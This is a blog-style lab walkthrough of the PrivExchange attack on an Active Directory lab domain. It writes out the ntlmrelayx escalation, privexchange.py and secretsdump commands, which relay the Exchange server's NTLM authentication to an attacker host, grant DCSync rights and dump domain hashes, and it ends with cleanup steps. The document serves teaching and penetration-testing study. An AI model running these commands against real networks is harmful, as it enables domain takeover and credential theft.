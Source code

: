 ```yaml
---
layout: single
classes: wide
title:  "Exploiting PrivExchange"
date:   2019-04-11 10:02:00 +0100
---
```


This is not my discovery, and is merely an expansion and demo of how to use the PrivExchange.
[Abusing Exchange: One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)

# Overview

The “PrivExchange” tool simply logs in on Exchange Web Services to subscribe to push notifications. This will make the Exchange server's machine account send its NTLMv2 hash back to your box. As this account usually has severely high privileges in the domain, it can then be relayed to gain domain privilege escalation.

## Prerequisites

1. A host on the network with the ability to run your tools.
2. A valid domain user account and password (or NTLM hash).
3. A valid Exchange Server hostname or IP address. 

    `pth-net rpc group members “Exchange Servers” -I dc01.lab.local -U lab/buff`

    ![pth-net rpc](../assets/img/privexchange/rpc.jpg)

4. **[PrivExchange](https://github.com/dirkjanm/PrivExchange.git)** and **[Impacket](https://github.com/SecureAuthCorp/impacket)** toolkit installed.
5. Domain Name, DC IP, Exchange Server, and your Attack host IP. 

### The different components of the attack

- `lab.local` - AD Domain Name
- `dc01.lab.local` - AD Domain Controller
- `mail01.lab.local` - AD Exchange Server
- `192.168.0.142` - Attacker host

# Exploitation Steps

Run `NTLMRelayX`  with the DC IP that we want to relay to.

    `ntlmrelayx.py -t ldap://dc01.lab.local --escalate-user buff`

![escalate-user buff](../assets/img/privexchange/2019-04-11-10-27-34.png)


Use the “PrivExchange” tool to send push notification to your own NTLM Relay server. The `-ah` parameter denotes the `attacking host` and the parameter after is the Exchange server. We also have to give it out current username and password.

    python privexchange.py -ah 192.168.0.142 mail01.lab.local -d lab.local -u chry -p Welcome1

![](../assets/img/privexchange/2019-04-11-10-33-01.png)

Things start happening in the relaying window. We can see a request coming in from the `MAIL01$` machine account.

![](../assets/img/privexhchange/2019-04-11-10-35-58.png)

Once the user in our control obtains `Replication-Get-Changes-All` privileges in the domain we can run `secretsdump.py` to dump hashes from the domain controller.

    [secretsdump.py](http://secretsdump.py/) lab/buff@192.168.0.2 -ntds ntds -history -just-dc-ntlm

![](../assets/img/privexchange/2019-04-11-10-43-45.png)

### **Wireshark.**

We first see the API call on HTTPS go to the Exchange server. Followed by 1 minute of waiting, we see a connection negotitation happen initiated from the Exchange server, followed by our Kali box POSTing the /privexchange URL.

![](../assets/img/privexchange/2019-04-11-10-44-01.png)

Followed by the relay to LDAP

![](../assets/img/privexchange/2019-04-11-10-44-16.png)

## Cleanup

In “Active Directory Users and Computers”, enable Advanced Features (in View Menu), Right-click [Domain -> Security -> Advanced]. Then look for the domain username account that you just gave “Replicating Directory Changes” and “Replicating Directory Changes All” privileges to and remove those Permission entries in the “Allow” checkboxes.

For example, if we use ADSI Edit to view the properties of the domain object, we can see that the domain user account we gave DCsync privileges have those privs:

![](../assets/img/privexchange/2019-04-11-10-42-24.png)

## References

[https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)

[https://github.com/dirkjanm/PrivExchange](https://github.com/dirkjanm/PrivExchange) (python Version)

[https://github.com/G0ldenGunSec/PowerPriv](https://github.com/G0ldenGunSec/PowerPriv) (powershell version)

[https://github.com/panagioto/SharpExchangePriv](https://github.com/panagioto/SharpExchangePriv) (C# version)